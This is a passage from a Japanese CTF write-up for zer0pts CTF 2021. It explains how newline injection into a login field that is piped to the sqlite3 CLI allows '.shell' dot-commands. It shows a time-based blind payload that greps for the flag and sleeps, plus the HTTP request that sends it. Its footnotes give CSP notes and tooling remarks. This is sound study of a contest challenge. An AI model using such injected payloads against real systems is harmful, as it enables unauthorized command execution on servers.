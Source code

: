 次にSQLを実行してる部分のソースコードを読むと
```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result
```
どうやらsubprocessとしてsqlite3コマンドを実行して、そのREPL環境で文字列を流し込んでいるようです。
つまり、複文使い放題ということです。幸いなことに`sqlite3_escape`は`\n`もエスケープしません。

ところで、`sqlite3_escape`が`.`も許容していることがとても気になります。怪しいです。非常に。

というわけで、SQLiteの構文で`.`を使ったものがあるか調べると[dot-command](https://sqlite.org/cli.html#:~:text=dot-commands)というものがありました。`.system`や`.shell`でシェルコマンドを叩けるので何でもできそうです。

例えば
```sh
cat templates/index.html | grep zer0pts{prefix && sleep 10
```
のようなコマンドを実行すると、`zer0pts{prefix`がヒットしたときだけタイムアウトし、ヒットしなかったときはすぐにレスポンスが返ってくるようになるため、time-basedなblind SQLiができそうです。

```
";\n.shell cat templates/index.html|grep zer0pts{prefix&&sleep 9\n
```
を投げてみましょう（ここで`\n`は改行文字です）。

```fish
$ http --form --follow POST http://web.ctf.zer0pts.com:8004/login username='";'\n'.shell cat templates/index.html | grep zer0pts{ && sleep 10'\n password=abc
HTTP/1.0 200 OK
Content-Length: 697
Content-Type: text/html; charset=utf-8
Date: Mon, 08 Mar 2021 15:27:15 GMT
Server: Werkzeug/1.0.1 Python/3.7.10
Set-Cookie: session=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Max-Age=0; Path=/

<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Login</title>
    </head>

    <body>
        <h1>Login</h1>
        <form action="/login" method="post">

            <p style="color:red">Too long username or password</p>

            <label for="username">Username: </label>
            <input id="username" name="username" type="text" placeholder="Username (letters, digits, underscores and whitespaces)"><br>
            <label for="password">Password: </label>
            <input id="password" name="password" type="password" placeholder="Password"><br>
            <input type="submit" value="Login">
        </form>
    </body>
```

[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet